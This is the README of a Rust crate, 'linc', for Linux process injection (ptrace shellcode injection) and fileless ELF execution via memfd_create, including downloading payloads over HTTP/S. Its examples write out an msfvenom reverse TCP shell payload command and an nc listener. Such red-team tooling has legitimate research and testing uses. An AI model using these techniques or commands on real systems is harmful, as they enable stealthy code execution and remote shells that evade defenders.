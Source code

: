 # linc - Linux INjection Crate
`linc` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
Add `linc` as a dependency to your Rust project with default features enabled
```bash
cargo add --git https://github.com/dustyw0lf/linc.git
```

Add `linc` without default features
```bash
cargo add --git https://github.com/dustyw0lf/linc.git --no-default-features
```

## Features
`linc` has the following features, enabled by default:
- `http`: Adds functionality to download payloads over HTTP/S.

## Examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/linc.git
```

Change directory into `linc`
```bash
cd linc
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Acknowledgments
The code that turns shellcode into an ELF file was taken from the [minimal-elf](https://github.com/tchajed/minimal-elf) repository by [Tej Chajed](https://www.chajed.io).